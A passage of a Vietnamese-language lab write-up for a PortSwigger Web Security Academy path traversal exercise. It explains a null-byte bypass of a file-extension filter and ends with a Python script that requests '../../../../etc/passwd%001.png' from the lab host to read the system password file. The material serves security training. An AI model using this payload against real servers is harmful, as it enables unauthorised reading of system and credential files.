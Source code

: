 ![image](https://hackmd.io/_uploads/rJSViPDKT.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải được lab

![image](https://hackmd.io/_uploads/BykLiPvtp.png)

## 6. Lab: File path traversal, validation of file extension with null byte bypass

link: https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass

### Đề bài

![image](https://hackmd.io/_uploads/r1l3ivwFa.png)

### Phân tích

<ul>
    <li>tương tự bài trước mình đã dùng burp suite chặn các request và click vào View detail để chọn xem 1 sản phẩm
    </li>
    <li>và mình bắt được gói tin yêu cầu 1 file ảnh từ server 
    </li>
</ul>

![image](https://hackmd.io/_uploads/H1vMnDDKa.png)

### Khai thác

<ul>
    <li>bài đã filter phần mở rộng phải là file ảnh </li>
    <li>mình đã thêm phần mở rộng đồng thời thêm ký tự null và encode url để bộ lọc vẫn nhận đây là file ảnh nhưng đến khi đọc file ở trong hệ thống lệnh sẽ bị dừng tại ký tự null </li>
</ul>

![image](https://hackmd.io/_uploads/H1OC2vwY6.png)

mình cũng viết lại script khai thác:

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# from bs4 import BeautifulSoup

url = 'https://0ad2005d04467e758442e62e00ef00ae.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/image?filename=../../../../etc/passwd%001.png',
    verify=False,
)

print(response.text) # hiển thị response có flag
```
